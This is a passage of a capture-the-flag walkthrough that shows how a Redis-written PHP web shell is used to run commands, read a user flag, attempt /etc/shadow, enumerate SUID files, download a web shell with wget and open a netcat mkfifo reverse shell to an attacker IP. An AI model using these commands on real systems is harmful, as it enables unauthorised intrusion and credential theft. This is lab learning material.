 To do that we need to provide a command like this: `{MachineIP}shell.php?cmd=whoami`

That didn't work, turns out I forgot an important step (what a surprise!), we need to save the changes in redis-cli by running `save`.


![We re-test our proof of time](https://i.imgur.com/LuK5PD1.png)

This time we get some information back, with this we can probably run a reverse shell back to our machine. We can also try to leverage another piece of information we got from the `redis-cli info` command. If you looked through those results, you should have noticed there was a user directory mentioned:

![There is a vianka user](https://i.imgur.com/LekQt31.png)

Let's see if we can get the user.txt flag that could very well be inside `vianka` folder.
let's say something like this: `cat /home/vianka/user.txt` we add that to our URL command like this: `{MachineIP}/shell.php?cmd=cat /home/vianka/user.txt`.

Let's give that a try:

![we try to get the user flag](https://i.imgur.com/obKEUdI.png)

It works, we got the first flag. We know how to answer the question/task #5:

> Question/Task #5 Compromise the machine and locate user.txt

Let's see how we can find the answer to the next question:

> Question #6 What is the local user account password?

We can probably try to cat the `etc/shadow` file but not sure if that would work. And it did not. Let's try to fire up a python HTTP server on whatever folder you download the `php web-shell` file (check the get set-up). And let's see if we can run a `wget http://10.13.0.34:2112/webshell.php`

That works, and if we navigate to `/webshell.php` we see the webshell loading.

![The shell loads](https://i.imgur.com/YjSjpcG.png)

Let's see if we can find any SUID, by running `find / -user root -perm -4000 -print 2>/dev/null`

This could take a bit, but eventually you should see something like this:

![we look for SUID](https://i.imgur.com/gv6Z72o.png)

We found a nice list of files were there SUID bit is set to run as root. I tried sudo but it did not work. At this point we could keep trying other files from the results, but we really need a better shell. Let's try to get a reverse shell to our kali box. We'll use the webshell we have been leveraging so far.

> Make sure to start a netcat listener on the port you want before running the command in the URL.

Let's see if we can get a reverse shell by running in the URL a netcat connection `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.0.34 7886 >/tmp/f`

![We run a connection to get reverse shell](https://i.imgur.com/A6FTUrm.png)

We got a reverse shell, a really basic shell. Let's see if we can upgrade it to a python TTY by running the following command `python -c 'import pty; pty.spawn("/bin/sh")'`
